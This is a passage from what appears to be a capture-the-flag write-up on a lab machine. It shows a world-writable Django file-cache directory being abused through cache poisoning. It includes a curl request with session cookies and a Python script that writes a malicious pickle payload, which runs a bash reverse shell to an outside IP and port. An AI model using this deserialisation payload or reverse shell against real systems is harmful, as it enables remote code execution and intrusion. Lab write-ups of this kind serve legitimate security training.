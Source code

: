 ### Cache Poisoning

Checking the `/var/tmp/django_cache`, we see the permission `drwxrwxrwx 2 sandy www-data`, this shows that the owner is user `sandy` and the group is `www-data`, therefore this mean anyone in the group can (Including us!):
- Create files inside

- Modify files inside

- Delete files inside

![directory](picture18.png)

Checkin inside the directory remains empty..

![directory](picture19.png)

So, from what i research, the django.cache directory will store the temporary cache from the website, therefore to prove this let's trigger the explore function by using curl.

```bash
curl -H "Cookie: sessionid=b6mll8g5j0xspqcbhqr5j37rv7iuurk; csrftoken=ZbbWHoXo2ZxfyDcsr0dWqR7zDIJX5m2r" \
http://hacknet.htb/explore >/dev/null
```
![directory](picture20.png)

### Exploitation phase
I created a pickle payload that executes a reverse shell:

```python
import pickle
import os

class Exploit(object):
    def __reduce__(self):
        cmd = "bash -c 'bash -i >& /dev/tcp/10.10.14.47/4444 0>&1'"
        return (os.system, (cmd,))

payload = pickle.dumps(Exploit())

with open("revshell.djcache", "wb") as f:
    f.write(payload)

print("[+] Reverse shell payload written to revshell.djcache")
```
